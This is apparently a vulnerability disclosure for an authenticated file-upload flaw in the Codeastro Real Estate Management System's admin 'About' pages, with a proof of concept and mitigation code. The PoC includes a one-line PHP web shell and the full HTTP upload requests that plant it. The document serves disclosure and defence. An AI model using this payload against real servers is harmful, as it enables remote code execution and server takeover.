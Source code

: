 ## Vulnerability Details:
- **Application Name**: Codeastro Real Estate Management System 
- **Software Link**: [Download Link](https://codeastro.com/real-estate-management-system-in-php-with-source-code/)
- **Vendor Homepage**: [Vendor Homepage](https://codeastro.com/)
- **BuG**: Arbitrary Authenticated File Upload Leading to Remote Code Execution (RCE)
- **BUG_Author**: egsec

## About project:
In particular, this Real Estate Management System Project in PHP focuses mainly on publishing and viewing properties. To be more precise, the system helps to keep a number of sales and rental properties.

## Vulnerability Description:
- The vulnerability arises from the lack of proper file validation and authentication checks in the file upload mechanism of the application. Both `/aboutadd.php` and `/aboutedit.php` endpoints allow authenticated admin to upload image files intended for the "About Page". However, the system does not properly validate the content type or check for the file's executable nature. As a result, an attacker could upload a malicious file (such as a PHP reverse shell) disguised as a legitimate image. Once the file is uploaded, the server processes it without detecting its harmful nature. This allows attackers to execute arbitrary code on the server, potentially leading to remote code execution (RCE).

## Vulnerable Code Section:
- for `/aboutadd.php`:
```php
<?php
...
$aimage=$_FILES['aimage']['name'];
$temp_name1 = $_FILES['aimage']['tmp_name'];
move_uploaded_file($temp_name1,"upload/$aimage");
...
?>
```
- for `/aboutedit.php`:
```php
<?php
...
$aimage=$_FILES['aimage']['name'];
$temp_name1 = $_FILES['aimage']['tmp_name'];
move_uploaded_file($temp_name1,"upload/$aimage");
...
?>
```

- Lack of File Type Validation: The code does not verify that the uploaded file is an actual image (e.g., by checking its MIME type or extension). This allows an attacker to upload files with executable code (such as a PHP reverse shell).

- Direct Use of File Name: The variable $aimage uses the original file name provided by the user, which is then directly moved into the upload/ directory. An attacker could upload a file like shell.php, which would then be accessible via the web server as /upload/shell.php, enabling them to execute code.

## Proof of Concept (PoC):
- create malicious file like shell.php
- write in the file this payload in order to execute the commands: `<?php system($_GET['cmd']);?>`
- go to the these pages for uploading file => `http://localhost/RealEstate-PHP/admin/aboutadd.php` and `http://localhost/RealEstate-PHP/admin/aboutedit.php?id=<page_id>`

![aboutadd](https://github.com/user-attachments/assets/77bc6064-058c-4f50-9f57-c1c2806a359c)

![aboutedit](https://github.com/user-attachments/assets/b80b255f-5287-46ab-8854-e3441eefae42)

- upload the malicious file (shell.php)
- after submitting, shell.php will be uploaded to the `http://localhost/RealEstate-PHP/admin/upload/` directory
- request to the shell.php file and get the shell => `http://localhost/RealEstate-PHP/admin/upload/shell.php?cmd=<command>`
- after executing "dir" command (for windows machnine), the files will be listed in the relevant directory:

![image](https://github.com/user-attachments/assets/2c058aa1-a374-4dec-95d2-c7b985a19391)

- request for `/aboutadd.php`:
```python
POST /RealEstate-PHP/admin/aboutadd.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------223874015127163847964204694679
Content-Length: 627
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/RealEstate-PHP/admin/aboutadd.php
Cookie: PHPSESSID=2k9gqipambd24c5lfpn99bcseu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------223874015127163847964204694679
Content-Disposition: form-data; name="title"

test
-----------------------------223874015127163847964204694679
Content-Disposition: form-data; name="aimage"; filename="shell.php"
Content-Type: application/octet-stream

<?php system($_GET['cmd']);?>

-----------------------------223874015127163847964204694679
Content-Disposition: form-data; name="content"

<p>test</p>
-----------------------------223874015127163847964204694679
Content-Disposition: form-data; name="addabout"

Submit
-----------------------------223874015127163847964204694679--
```
- response for `/aboutadd.php`:
```python
HTTP/1.1 200 OK
Date: Wed, 06 Nov 2024 19:26:20 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
X-Powered-By: PHP/8.2.12
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 9083
```

- request for `/aboutedit.php`:
```python
POST /RealEstate-PHP/admin/aboutedit.php?id=11 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------291824796116344584804150147564
Content-Length: 625
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/RealEstate-PHP/admin/aboutedit.php?id=11
Cookie: PHPSESSID=2k9gqipambd24c5lfpn99bcseu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------291824796116344584804150147564
Content-Disposition: form-data; name="utitle"

asd
-----------------------------291824796116344584804150147564
Content-Disposition: form-data; name="ucontent"

<p>asd</p>
-----------------------------291824796116344584804150147564
Content-Disposition: form-data; name="aimage"; filename="shell.php"
Content-Type: application/octet-stream

<?php system($_GET['cmd']);?>

-----------------------------291824796116344584804150147564
Content-Disposition: form-data; name="update"

Submit
-----------------------------291824796116344584804150147564--
```
- response for `/aboutedit.php`:
```python
HTTP/1.1 302 Found
Date: Wed, 06 Nov 2024 19:33:25 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
X-Powered-By: PHP/8.2.12
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: aboutview.php?msg=<p class='alert alert-success'>About Updated</p>
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 9337
```
## Impact:
This vulnerability allows attackers to upload and execute arbitrary code on the server. The consequences of successful exploitation include:

    Unauthorized remote code execution on the server
    Potential access to sensitive system information or data
    Compromise of the server and other connected systems
    Escalation of privileges, depending on the attacker’s access level

## Mitigation:
- Verify that the uploaded file is an image by checking its MIME type and extension. For example:
```php
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
$file_type = mime_content_type($temp_name1);

if (!in_array($file_type, $allowed_types)) {
    die("Error: Only JPG, PNG, and GIF files are allowed.");
}
```
- Attackers can bypass file type checks by renaming malicious files with image extensions (e.g., .jpg). To enhance security, validate the file extension:
```php
$allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];
$file_extension = pathinfo($aimage, PATHINFO_EXTENSION);

if (!in_array($file_extension, $allowed_extensions)) {
    die("Error: Invalid file extension.");
}
```

## References:
- [cvefeed.io link for CVE-2024-10999](https://cvefeed.io/vuln/detail/CVE-2024-10999)
- [cvefeed.io link for CVE-2024-11000](https://cvefeed.io/vuln/detail/CVE-2024-11000)
